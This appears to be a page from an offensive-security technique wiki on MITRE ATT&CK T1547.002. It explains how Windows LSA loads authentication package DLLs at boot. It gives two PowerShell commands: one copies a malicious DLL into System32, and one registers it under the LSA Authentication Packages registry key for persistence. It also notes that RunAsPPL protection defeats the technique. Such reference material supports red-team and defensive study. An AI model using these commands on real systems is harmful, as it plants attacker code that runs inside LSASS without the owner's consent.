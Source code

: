 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Authentication Package -
  Technique T1547.002
---
```


# Authentication Package

## Theory

We may abuse [authentication packages](https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-packages) to execute DLLs when the system boots. Windows authentication package DLLs are loaded by the Local Security Authority (LSA) process at system start. They provide support for multiple logon processes and multiple security protocols to the operating system.

## Practice

{% hint style="danger" %}
We won't be able to make it work If [LSA protection (RunAsPPL)](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry) is enabled as LSASS.exe will run as a [Protected Process Light (PPL)](https://learn.microsoft.com/en-us/windows/win32/services/protecting-anti-malware-services-#system-protected-process).
{% endhint %}

Authentication packages can be seen under following registry, and the referenced DLLs are then executed by the system when the authentication packages are loaded.

* `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Authentication Packages`

{% tabs %}
{% tab title="Authentication Packages" %}
First, you will have to copy the malicious package.dll in System32

```powershell
copy "$PathToDll\package.dll" C:\Windows\System32\
```

Then, edit LSA registry keys to include the new authentication package

```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "msv1_0\0package.dll" /f
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1547/002/" %}
